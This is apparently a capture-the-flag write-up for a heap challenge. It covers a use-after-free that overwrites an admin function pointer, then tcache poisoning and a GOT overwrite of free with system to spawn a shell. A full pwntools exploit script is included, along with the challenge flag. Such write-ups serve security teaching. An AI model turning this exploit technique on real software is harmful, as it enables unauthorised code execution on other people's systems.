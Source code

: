 # cache

## Challenge

We're given a libc and a binary.

Starting the challenge, we get the following menu:

```
MENU
1: Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user

Choice:
```

There appears to be a win function that will execute `cat flag.txt`:

```asm
[0x00400720]> pdf @ sym.getFlag 
            ; DATA XREF from main @ 0x40097a
┌ 43: sym.getFlag ();
│           0x0040084a      55             push rbp
│           0x0040084b      4889e5         mov rbp, rsp
│           0x0040084e      b900000000     mov ecx, 0
│           0x00400853      488d15ee0200.  lea rdx, str.flag.txt       ; 0x400b48 ; "flag.txt"
│           0x0040085a      488d35f00200.  lea rsi, [0x00400b51]       ; "cat"
│           0x00400861      488d3de90200.  lea rdi, [0x00400b51]       ; "cat"
│           0x00400868      b800000000     mov eax, 0
│           0x0040086d      e89efeffff     call sym.imp.execlp
│           0x00400872      90             nop
│           0x00400873      5d             pop rbp
└           0x00400874      c3             ret
```

## Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```

## Solution

Let's look at the "Delete admin" and "Delete user" branches:

Delete admin:

```c
if (var_1ch == 6) {
    sym.imp.free(ptr);
}
```

Delete user:

```
if (var_1ch == 7) {
    sym.imp.free(buf);
}
```

We can see that the pointers not cleared, resulting in dangling pointers.
There is also no check for whether the pointers are valid before they are read or written to.
This gives us a UAF vulnerability.

### Read fake flag

The admin struct contains 2 function pointers:

```c
if (var_1ch != 1) break;
ptr = (void *)sym.imp.malloc(0x10);
*(code **)((int64_t)ptr + 8) = sym.admin_info;
*(code **)ptr = sym.getFlag;
```

One to `admin_info` and one to `getFlag`.

We can only call `sym.admin_info` normally, using the "Print admin info" option.
However, note that the user and admin structs are the same size.
If we free the admin then allocate a user, it will occupy the same space on the heap.
Now both pointers share the same buffer.

When we are prompted for a name, or using the "Edit Student Name" option, we can write whatever we
want to the admin function pointers.

If we write the `getFlag` function pointer to `*(ptr + 8)` and use "Print admin info", the program
executes `cat flag.txt` and we get the following response:

```py
-> % ./exploit.py
[*] '/home/debian/challenges/cache/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
[+] Opening connection to 34.159.7.96 on port 32552: Done
[*] Switching to interactive mode
Try Harder!!! https://www.youtube.com/watch?v=dQw4w9WgXcQ
[*] Got EOF while reading in interactive
```

So `flag.txt` contains a fake flag.
To find the real flag, we need to be able to execute arbitrary commands, so let's spawn a shell.

### Spawn shell and read real flag

The challenge uses libc 2.27, which is shortly after tcache was introduced.
Tcache bins are short singly-linked lists of freed chunks of equal sizes and there are no checks
when unlinking items.

By allocating a user and admin, then freeing both, the first one to be freed will have a pointer
to the second.
By freeing the user first, we will have a pointer that we can edit using the "Edit Student Name"
option.
We can make this point at any address we want to write to, such as the GOT entry for `free`.
By allocating 2 chunks now, the second will be placed at the address we chose.

Before we make these allocations, however, we need a "/bin/sh" string at one of our pointers to
make a GOT overwrite useful.
We can do so by allocating then freeing an admin chunk, then allocating a user chunk.
This will cause both pointers to point at the same heap struct.
We can use the user methods now to write "/bin/sh" at the pointer.

Now, without freeing the previous chunk, we allocate another chunk which will be placed at the GOT
entry of `free`.
We can use this and the "Print Student Name" address to leak the address of `free` and calculate
the libc address.
Then we use the "Edit Student Name" option to overwrite the GOT entry to `system`.
Lastly, we free the admin chunk to execute `system("/bin/sh")`.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 34.159.129.6 --port 32722 vuln
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('vuln')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '34.159.7.96'
port = int(args.PORT or 32552)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./'

io = start()

# create and free 2 chunks to get a forward pointer
io.sendlineafter(b"Choice: ", b"1")
io.sendlineafter(b"Choice: ", b"2")
io.sendafter(b"What is your name: ", b"a")
io.sendlineafter(b"Choice: ", b"6")
io.sendlineafter(b"Choice: ", b"7")

# change forward pointer to overwrite target
io.sendlineafter(b"Choice: ", b"4")
io.sendafter(b"What is your name: ", pack(exe.got['free']))

# overlap admin and user chunks and write "/bin/sh"
io.sendlineafter(b"Choice: ", b"1")
io.sendlineafter(b"Choice: ", b"6")
io.sendlineafter(b"Choice: ", b"2")
io.sendafter(b"What is your name: ", b"/bin/sh\x00")

# allocate chunk in GOT
io.sendlineafter(b"Choice: ", b"2")
io.sendafter(b"What is your name: ", b"a")

# print libc address
io.sendlineafter(b"Choice: ", b"5")
io.recvuntil(b"Students name is ")
leak = io.recvuntil(b"\n", drop=True).ljust(8, b'\x00')
libc.address = (unpack(leak) & 0xffffffffffffff00) - (libc.sym['free'] & 0xffffffffffffff00)
io.success("libc : " + hex(libc.address))

# change free GOT entry to system
io.sendlineafter(b"Choice: ", b"4")
io.sendafter(b"What is your name: ", pack(libc.sym['system']))

# call system("/bin/sh")
io.sendlineafter(b"Choice: ", b"6")

io.interactive()
```

## Flag

```
CTF{ab7bdaa3e5ed17ed326fef624a2d95d6ea62caa3dba6d1e5493936c362eed40e}
```
